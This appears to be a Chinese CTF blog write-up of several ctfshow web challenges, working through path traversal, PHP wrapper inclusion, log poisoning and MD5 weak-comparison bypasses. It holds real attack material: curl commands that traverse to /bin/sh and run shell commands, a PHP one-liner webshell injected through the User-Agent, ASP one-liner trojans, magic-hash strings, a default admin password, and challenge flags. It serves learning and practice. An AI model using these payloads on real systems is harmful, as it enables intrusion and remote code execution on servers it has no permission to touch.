还记得我们一开始看到的响应头吗？在Unix系统上，文件系统通常是基于树形结构的，以根目录“/”为起点，通过目录层次的嵌套来组织文件和目录。**如果Web应用程序在Unix系统上运行，那么它的文件通常也会存储在Unix系统的文件系统中。**我们要用curl来回到unix的根目录，这样就能绕过审查机制。这里使用到kali。

```
curl 'http://destination/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh' -d 'A=|echo;ls /'
curl 'http://destination/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh' -d 'echo;ls /'
（ps：没有A=|也行，但是一定要有echo，它的作用是在服务器上执行一个空命令，以确保在执行"ls /"命令之前，命令行处于一个干净的状态。）
	这里使用了路径遍历漏洞，通过在URL中多次使用"/"和".%2e"，来访问文件系统中的上级目录，最终访问到了"/bin/sh"这个文件，它是一个Linux系统中的shell程序。
	熟悉cd指令的朋友们应该知道'cd ..'是返回上级目录，这里的'%2e'就是代表着一个点的意思，那么在配合前面一个点就是两个点，返回上一级，这里反复用很多次就是为了回到根目录。为什么不用两个点，反而还要再用一个%2e呢？因为在url中, . 和 .. 都有特殊含义，这里是为了避免歧义，所以把 .. 拆成一个点带一个编码的点的形式来执行。
	这里使用了"-d"参数，指定了一个POST请求的数据体，其中"A=|echo;ls /"是一个bash命令，用于执行两个子命令，以列出根目录"/"下的文件列表。具体来说，"A=|echo"是一个无意义的赋值操作，它将变量"A"赋值为一个竖杠字符"|"，然后使用echo命令将这个值输出到控制台。接着，";"是一个命令分隔符，用于分隔两个命令。最后的"ls /"是一个列出根目录"/"下文件列表的命令，它将根目录下的所有文件和目录列出来，并将结果返回给命令行输出。这里可以使用ls，但是不适合访问特定目录的详细信息，像这里的话使用了ls之后我就没看见flag（不是没有）。
	curl 'http://destination/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh' -d 'echo;cat /flag'
	执行"cat /flag"这个命令来输出"/flag"文件的内容，那么"/flag"应该是一个绝对路径，表示根目录下的"flag"文件。而执行"cat flag"命令会将"flag"解释为相对于当前工作目录的路径，而不是根目录下的路径。
```


## 帝国CMS（青少）


软件显示为nginx，也有版本号，接下来我又没头绪了，开始dirsearch。先翻到了一个robots，看有什么爬的。


爆到/e/admin/进了后台，搜了一下帝国似乎后台就是这个地址。


```
这里我先在kali安装了一下dirsearch，如果遇到无法安装的问题请试试下列指令
sudo apt-get update 更新一下，应该就好了
```

发现不太行，我最好还是从01开始做，到时候再说！先回ctfshow去喽！（溜）

## web签到


这里参考的wp[在这里](https://blog.csdn.net/m0_64815693/article/details/127835745)

首先这里有中文，换成url编码执行

```
群=%E7%BE%A4
```

## web3（伪协议）


[日志注入](https://blog.csdn.net/weixin_63231007/article/details/124917381?spm=1001.2101.3001.6650.1&utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7ECTRLIST%7ERate-1-124917381-blog-113716712.235%5Ev38%5Epc_relevant_anti_vip_base&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7ECTRLIST%7ERate-1-124917381-blog-113716712.235%5Ev38%5Epc_relevant_anti_vip_base&utm_relevant_index=2)

[php伪协议](https://blog.csdn.net/qq_37466661/article/details/126203437)

```php
<?php include($_GET['url']);?>
这是一个php伪协议的标志。
没有提示我们flag在哪里，filter试一下flag.php,flag,txt,flag都没有
用php://input试一下，burp抓包
```


这边用php://input试一下，然后抓包


php伪协议中经常用到的是**php://filter和php://input**，filter用来读取php文件的源码，它本身的含义是滤波器。然后input则是用来执行php代码，通常以post形式，不是get。所以它会在请求体里，不是在url当中。

而include函数所包含的文件会被执行，配合伪协议甚至可以直接RCE。


ctrl+r，放在repeater里看一下，末尾加一下php代码，**由input执行**


那接下来我就知道了😊😊😊


ctfshow{7edc426c-211b-4bb2-8030-4b90e0e250b9}

## web4（日志注入）


什么情况，error了。会不会是ban了。估计是伪协议不让用了。

这里需要用到**日志注入**的知识，这里地址会是**/var/log/nginx/access.log**


这里就是直接读取日志。[Nginx access.log日志详解及统计分析](https://blog.csdn.net/weixin_45698637/article/details/128486012)

能看见这里的日志都是我打开环境之后做的操作。所以这也是个警示，你所有的搜索都会有日志痕迹。

在user-agent中插入一句话木马。

```一句话木马
例子：
黑客在注册信息的电子邮箱或者个人主页等中插入类似如下代码：
<%execute request("value")%>
其中value是值，所以你可以更改自己的值，前面的request就是获取这个值
<%eval request("value")%>(现在比较多见的，而且字符少，对表单字数有限制的地方特别的实用)
当知道了数据库的URL，就可以利用本地一张网页进行连接得到Webshell。
（不知道数据库也可以，只要知道<%eval request("value")%>这个文件被插入到哪一个ASP文件里面就可以了。）
这就被称为一句话木马，它是基于B/S结构的。
```

[中国蚁剑用法](https://blog.csdn.net/m0_64338211/article/details/122528771)\[安装问题](https://blog.csdn.net/Ahuuua/article/details/109034528)


https://blog.csdn.net/qq_62708558/article/details/123030828  大概讲了这个一句话是什么作用


 <?php eval($_POST['cmd']); ?>这里的意思就是执行提交的变量。


 所以以后我们遇见类似的题目时，php伪协议用不了可以尝试日志注入。

这里是蚁剑的官方说明书。[蚁剑](https://www.yuque.com/antswordproject/antsword/qg3g73)

上面的操作就是在日志里新建一个shell的方法。

## web5

```php+HTML
ctf.show_web5
where is flag?
<?php
error_reporting(0);
?>
<html lang="zh-CN">

<head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
    <meta name="viewport" content="width=device-width, minimum-scale=1.0, maximum-scale=1.0, initial-scale=1.0" />
    <title>ctf.show_web5</title>
</head>
<body>
    <center>
    <h2>ctf.show_web5</h2>
    <hr>
    <h3>
    </center>
    <?php
        $flag="";
        $v1=$_GET['v1'];
        $v2=$_GET['v2'];
        if(isset($v1) && isset($v2)){
            if(!ctype_alpha($v1)){
                die("v1 error");
            }
            if(!is_numeric($v2)){
                die("v2 error");
            }
            if(md5($v1)==md5($v2)){
                echo $flag;
            }
        }else{
        
            echo "where is flag?";
        }
    ?>

</body>
</html>

```

这里我们做一个分析，v1要求是字母，v2要求是数字，两者md5相同时跳出flag。

这里牵扯到md5函数的绕过。


只要满足0E开头就可以。

```md5
md5(str)
    QNKCDZO
    240610708
    s878926199a
    s155964671a
    s214587387a
    s214587387a
    sha1(str)
 sha1后以0E开头
        sha1(‘aaroZmOk’)
        sha1(‘aaK1STfY’)
        sha1(‘aaO8zKZF’)
        sha1(‘aa3OFF9m’)
```


## 萌新专属红包题

打开发现是一个登录界面


动易默认密码是admin888，flag在包里就能抓，还以为要sql注入呢

ctfshow{d87bdb55-2d26-47b3-9387-861970794503}

#### 方便下一个博客的链接点


